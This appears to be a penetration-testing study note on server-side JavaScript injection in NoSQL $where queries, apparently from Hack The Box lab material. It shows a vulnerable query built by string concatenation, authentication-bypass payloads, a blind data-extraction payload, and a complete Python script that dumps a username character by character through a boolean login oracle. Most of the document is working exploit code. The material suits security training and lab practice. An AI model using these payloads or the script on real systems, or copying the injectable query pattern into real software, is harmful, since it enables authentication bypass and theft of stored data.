 ## Server-Side JavaScript Injection

One type of injection unique to NoSQL is `JavaScript Injection` This is when an attacker can get the server to execute arbitrary JavaScript in the context of the database. JavaScript injection may, of course, be in-band, blind, or out-of-band, depending on the scenario.

A quick example of this would be a server that used the `$where` query to check username/password combinations:

```sh
.find({$where: "this.username == \"" + req.body['username'] + "\" && this.password == \"" + req.body['password'] + "\""});
```


**Authentication Bypass**

```sh
$where: 'this.username == "" || ""=="" && this.password == "" || ""==""'
$where: 'this.username === "" || true || ""=="" && this.password === "<password>"'
```

**Blind Data Extraction**

```
" || (this.username.match('^.*')) || ""=="
```


## Automating Server-Side JavaScript Injection

```py
#!/usr/bin/python3

import requests
from urllib.parse import quote_plus

# Oracle (answers True or False)
num_req = 0
def oracle(r):
    global num_req
    num_req += 1
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text

# Ensure the oracle is working correctly
assert (oracle('false') == False)
assert (oracle('true') == True)

# Dump the username ('regular' search)
num_req = 0 # Set the request counter to 0
username = "HTB{" # Known beginning of username
i = 4 # Set i to 4 to skip the first 4 chars (HTB{)
while username[-1] != "}": # Repeat until we dump '}' (known end of username)
    for c in range(32, 128): # Loop through all printable ASCII chars
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c) # Append current char to the username if it expression evaluates as True
            break # And break the loop
    i += 1 # Increment the index counter
assert (oracle('this.username == `%s`' % username) == True) # Verify the username
print("---- Regular search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
print()

# Dump the username (binary search)
num_req = 0 # Reset the request counter
username = "HTB{" # Known beginning of username
i = 4 # Skip the first 4 characters (HTB{)
while username[-1] != "}": # Repeat until we meet '}' aka end of username
    low = 32 # Set low value of search area (' ')
    high = 127 # Set high value of search area ('~')
    mid = 0
    while low <= high:
        mid = (high + low) // 2 # Caluclate the midpoint of the search area
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
            low = mid + 1 # If ASCII value of username at index 'i' < midpoint, increase the lower boundary and repeat
        elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
            high = mid - 1 # If ASCII value of username at index 'i' > midpoint, decrease the upper boundary and repeat
        else:
            username += chr(mid) # If ASCII value is neither higher or lower than the midpoint we found the target value
            break # Break out of the loop
    i += 1 # Increment the index counter (start work on the next character)
assert (oracle('this.username == `%s`' % username) == True)
print("---- Binary search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
```

